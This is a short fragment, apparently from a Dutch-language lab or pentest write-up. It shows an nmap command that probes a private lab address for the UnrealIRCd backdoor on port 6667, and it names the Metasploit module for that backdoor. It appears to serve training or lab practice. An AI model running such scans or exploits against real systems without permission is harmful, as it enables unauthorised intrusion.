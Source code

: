 # 2.1 Exploit van de IRC-service

``` bash
nmap -sV -script irc-unrealircd-backdoor -p 6667 10.0.2.5
```

> UnrealIRCd 

> exploit/unix/irc/unreal_ircd_3281_backdoor

